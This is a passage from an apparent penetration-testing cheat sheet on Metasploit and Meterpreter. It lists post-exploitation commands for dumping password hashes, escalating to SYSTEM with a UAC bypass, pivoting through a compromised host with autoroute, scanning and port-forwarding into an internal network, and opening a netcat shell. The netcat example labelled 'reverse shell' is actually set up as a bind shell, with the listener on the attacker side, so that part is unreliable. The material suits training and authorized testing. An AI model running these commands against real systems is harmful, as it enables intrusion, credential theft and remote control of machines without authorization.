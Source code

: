   - `upload <filename> <location>`
  - `shell`
  - `hashdump`
  - `run autoroute -h`
  - `run autoroute -s 192.130.110.0 -n 255.255.255.0 ` (pivoting towards that network)

Tip: `help` shows an amazing list of available commands divided by category  
Tip: If `getsystem` fails, use `use exploit/windows/local/bypassuac`  
Tip: `ps -U SYSTEM` shows only the processes with SYSTEM privileges  
Tip: Use `post/windows/gather/hashdump` to dump the passwords DB and save it for an offline cracking session  

#### Pivoting with Meterpreter
Let's say we have compromised a machine using metasploit and we have a meterpreter shell with session id 1. We discover that there is another machine but it's reachable only from the compromised machine.  
Our IP: `192.180.40.2`  
Compromised host: `192.180.40.3`  
Unreachable machine: `192.130.110.3`  

- `meterpreter > run autoroute -s 192.130.110.0 -n 255.255.255.0 1`
- `background`
- `msf > route`

If we want to scan the `192.130.110.0/24` network we can use:
```
msf > use auxiliary/scanner/portscan/tcp
msf > set PORTS 80, 8080, 445, 21, 22, ...
msf > set RHOSTS 192.130.110.1-254
msf > exploit
```

If we discover that at least one port is open and we want to target a specific port on a specific host (e.g. `192.130.110.3:21`) we can use:
  - `sessions 1` (back to meterpreter session)
  - `portfwd add -l 1234 -p 21 -r 192.130.110.3` (forwarding remote machine port 21 to the local machine port 1234)
  - `portfwd list`
  - `background`

Then if we want to scan the service we can use nmap:
```bash
msf > nmap -sS -sV -p 1234 localhost
```


#### Reverse shell with Netcat
Attacker:
```bash
nc -lvp 8888 -e /bin/bash
```
Target (the IP of the attacker):
```bash
nc -v 192.168.1.1 8888
```

